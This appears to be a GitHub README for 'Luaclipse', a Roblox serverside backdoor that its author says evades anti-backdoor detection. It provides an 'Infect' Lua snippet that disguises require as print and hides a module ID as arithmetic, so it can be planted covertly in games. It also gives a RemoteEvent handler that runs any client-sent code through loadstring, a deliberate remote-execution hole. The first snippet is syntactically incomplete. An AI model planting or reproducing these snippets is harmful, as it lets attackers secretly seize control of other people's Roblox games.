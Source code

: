 # 🌙 Luaclipse
Chat-based ROBLOX serverside, chat-based since it won't get detected by anti-serversides.
No you're not getting this serverside, unless you're cool and not a skid,

This is also an FE script for executors which is basically just a backdoor scanner.
So that's why theres a folder called "script_scanner"

# Infect:
```lua
pcall(function()
  local print, math = require, { huge = 784431743.896819 * 99999 }
  print(math.huge)
end
```

Or heres the infect for the backdoor scanner.

YOU HAVE TO TURN ON ``LoadstringEnabled`` IN ServerScriptService!!!

NOTE: YOU CAN ONLY USE THIS IN STUDIO, NOT WITH ACTUAL EXECUTORS
```lua
local remote = Instance.new("RemoteEvent",game:GetService("ReplicatedStorage"))
remote.Name = "Fire_C-Side_Code"
remote.OnServerEvent:Connect(function(player,code)
	loadstring(code)()
	--warn(player.Name.." fired "..remote.Name.." with code: "..tostring(code))
end)
```
### Last updated: 10/1/25
